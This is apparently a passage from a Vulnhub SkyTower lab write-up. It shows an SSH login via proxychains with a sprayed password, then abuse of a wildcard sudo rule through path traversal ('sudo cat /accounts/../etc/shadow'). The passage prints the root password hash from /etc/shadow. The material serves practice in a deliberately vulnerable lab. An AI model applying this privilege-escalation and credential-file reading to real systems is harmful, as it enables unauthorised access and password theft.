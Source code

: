 ```
mysql> 


```

## Spray the password of sara in ssh successed
```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa sara@192.168.56.101 -t "bash --noprofile --norc"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
sara@192.168.56.101's password: 
bash-4.2$ whoami
sara
bash-4.2$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
bash-4.2$ 


```
## It took me long time to see the technique, the permistion it says
 io can go in /accounts/ as root and any other point so i need to pass first into /accounts/ as root and i can go * [ALL] i want so, i listed in root using /accounts/../root >> i go back one step and list the root directory contesnt and i found the flag
#WTF

## Privillage escalation
How can i prove can i cat /etc/shadow?
```
bash-4.2$ sudo cat /accounts/../etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
daemon:*:16241:0:99999:7:::
bin:*:16241:0:99999:7:::
sys:*:16241:0:99999:7:::
sync:*:16241:0:99999:7:::
games:*:16241:0:99999:7:::
man:*:16241:0:99999:7:::
lp:*:16241:0:99999:7:::
mail:*:16241:0:99999:7:::
news:*:16241:0:99999:7:::
uucp:*:16241:0:99999:7:::
proxy:*:16241:0:99999:7:::
www-data:*:16241:0:99999:7:::
backup:*:16241:0:99999:7:::
list:*:16241:0:99999:7:::
irc:*:16241:0:99999:7:::
gnats:*:16241:0:99999:7:::
nobody:*:16241:0:99999:7:::
libuuid:!:16241:0:99999:7:::
sshd:*:16241:0:99999:7:::
mysql:!:16241:0:99999:7:::
```